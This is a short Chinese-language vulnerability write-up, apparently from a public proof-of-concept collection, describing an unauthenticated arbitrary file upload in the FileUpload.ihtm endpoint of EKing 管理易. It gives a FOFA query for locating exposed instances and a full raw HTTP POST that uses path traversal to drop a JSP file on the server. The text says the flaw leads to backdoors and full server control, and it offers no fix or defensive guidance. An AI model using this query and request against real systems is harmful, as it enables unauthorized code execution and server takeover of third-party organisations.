 # eking管理易FileUpload接口存在任意文件上传漏洞

EKing-管理易 FileUpload.ihtm 接口处存在文件上传漏洞，未经身份验证的远程攻击者可利用此漏洞上传任意文件，在服务器端任意执行代码，写入后门，获取服务器权限，进而控制整个 web 服务器。

## fofa

```yaml
app="EKing-管理易"
```

## poc

```yaml
POST /app/FileUpload.ihtm?comm_type=EKING&file_name=../../rce.jsp. HTTP/1.1
Host: 
User-Agent:Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=WebKitFormBoundaryHHaZAYecVOf5sfa6

--WebKitFormBoundaryHHaZAYecVOf5sfa6
Content-Disposition: form-data; name="uplo_file"; filename="rce.jpg"

<% out.println("hello");%>
--WebKitFormBoundaryHHaZAYecVOf5sfa6--
```

![d6195b5041564ca4bb7b6ae0a4437513.png](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407301642889.png)

![25f79982d40949828bd29e1d81404123.png](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407301643141.png)